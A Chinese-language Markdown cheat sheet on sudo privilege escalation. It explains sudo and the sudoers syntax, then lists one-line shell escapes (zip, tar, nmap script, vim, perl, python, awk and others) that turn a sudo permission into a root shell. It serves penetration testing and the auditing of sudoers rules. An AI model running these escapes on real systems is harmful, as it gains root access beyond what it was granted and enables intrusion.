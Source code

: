 # sudo 提权

#### sudo是什么？

给普通用户某个命令有root权限，并不需要给root密码，毕竟知道root密码的人越多越不安全。普遍的做法就是利用sudo （Substitute User and Do 的简写）给其临时授权,临时让其以root 权限运行某个程序。

#### sudo的执行原理

普通用户执行命令 -> 检查`/var/db/sudo/`目录下是否有用户时间戳 -> 检查/etc/sudoers配置文件，用户是否有sudo权限 -> 执行sudo命令并反回结果 -> 退出sudo返回普通用户shell环境。

其中步骤2检查：时间戳默认从上一次执行sudo命令5分钟后过期。

`/etc/sudoers` 或者使用`visudo`命令进行编辑。

文件语法：

`root ALL=(ALL) ALL`

* root表示用户名
* 第一个 ALL 指示允许从任何终端、机器访问sudo
* 第二个 (ALL)指示sudo命令被允许以任何用户身份执行
* 第三个 ALL 表示所有命令都可以作为root执行

使用`sudo -l`查看当前权限。

#### zip、tar、strace、nmap、more、git、ftp、vim、passwd

zip:

`sudo zip /tmp/tmp.zip /tmp/ -T --unzip-command="sh -c /bin/bash"`

* \-T 表示测试test.zip的完整性
* –unzip-command 与-T 一起使用，可以指定自定义命令用于解压test.zip

tar:

`sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash`

* –checkpoint-action选项是提权点,可以自定义需要执行的动作

strace:

`sudo strace -o /dev/null /bin/bash`

nmap:

```
低版本的nmap3.x 有interactive模式，且设置了suid，这个时候可以进入交互模式 执行!sh 命令即可轻松完成提权。 

echo "os.execute('/bin/bash')" > /tmp/shell.nse 
sudo nmap --script=/tmp/shell.nse
```

more:

```
sudo more /etc/hosts
!/bin/bash
```

git:

```
sudo git help status
!/bin/bash
```

ftp:

```
sudo ftp 
ftp> !/bin/bash
```

vim:

```
sudo vim -c '!bash'
```

#### perl、python、less、awk、man、vi

perl:

```
sudo perl -e 'exec "/bin/bash";'
```

python:

```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

awk:

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

man:

```
sudo man 
man !/bin/bash
```

vi:

```
sudo vi
!bash
```
